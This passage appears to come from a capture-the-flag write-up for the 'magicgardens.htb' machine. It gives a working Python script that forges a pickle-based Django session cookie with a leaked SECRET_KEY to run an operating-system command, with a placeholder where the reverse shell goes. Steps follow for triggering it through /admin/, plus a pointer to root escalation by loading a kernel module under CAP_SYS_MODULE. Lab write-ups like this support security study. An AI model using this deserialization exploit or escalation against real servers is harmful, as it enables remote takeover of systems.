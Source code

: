 ```bash
### Generating a Malicious Cookie

The following Python script demonstrates how to generate a malicious session cookie:

```python
import os
import django
from django.conf import settings
import django.core.signing
import pickle

# Configure Django settings with the discovered SECRET_KEY
settings.configure(
    SECRET_KEY='55A6cc8e2b8#ae1662c34)618U549601$7eC3f0@b1e8c2577J22a8f6edcb5c9b80X8f4&87b',
)

django.setup()

# Define the salt and a serializer to use with signing
salt = "django.contrib.sessions.backends.signed_cookies"

class PickleSerializer:
    def dumps(self, obj):
        return pickle.dumps(obj, pickle.HIGHEST_PROTOCOL)

    def loads(self, data):
        return pickle.loads(data)

# Create a command that executes a reverse shell
class Command:
    def __reduce__(self):
        return (os.system, ('your reverse shell command',))

# Generate the malicious cookie
cookie = django.core.signing.dumps(
    Command(), key=settings.SECRET_KEY, salt=salt, serializer=PickleSerializer
)
print(cookie)
### Steps to Execute the Exploit

1. **Replace** `'your reverse shell command'` in the script with the command you want to execute on the server, such as initiating a reverse shell.

2. **Run** the script using Python 3:

    ```bash
    python3 script.py
    ```

3. **Copy** the generated cookie and set it as the `sessionid` in your browser’s cookies.

4. **Visit** `http://magicgardens.htb/admin/` to trigger the payload and execute the command on the server.

This technique allows you to gain control over the server by exploiting the Django application’s session handling mechanism.
## Step 5: Privilege Escalation with Linux Capabilities

After gaining initial access through the Django exploit, it's time to escalate privileges. Running the `linpeas` tool reveals that the system has `CAP_SYS_MODULE` capabilities, which allow you to load and unload kernel modules. This capability can be exploited to load a custom kernel module, effectively giving you root access.

```